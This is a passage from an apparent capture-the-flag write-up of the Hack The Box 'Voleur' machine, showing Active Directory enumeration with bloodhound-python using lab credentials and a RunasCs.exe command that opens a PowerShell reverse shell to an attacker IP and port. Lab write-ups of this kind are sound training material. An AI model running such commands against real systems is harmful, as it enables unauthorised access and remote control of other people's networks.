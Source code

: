 NetExec gives us successful authentication with **Todd.Wolfe**

### Bloodhound 2

After enabling **Todd.Wolfe** again gathered ldap data using bloodhound-python.

```bash
bloodhound-python -u 'ryan.naylor' -p 'HollowOct31Nyt' -dc dc.voleur.htb -d voleur.htb -ns 10.129.244.243 -c all --zip
```

![image.png](/assets/images/Voleur_HTB/image%2030.png)

Now I enumerated through bloodhound but did not found anything.

### Shell as Todd.Wolfe

Again, running RunasCs.exe to gain the shell as **Todd.Wolfe**.

```bash
./RunasCs.exe todd.wolfe NightT1meP1dg3on14 powershell.exe -r 10.10.14.72:9002
```

![image.png](/assets/images/Voleur_HTB/image%2031.png)
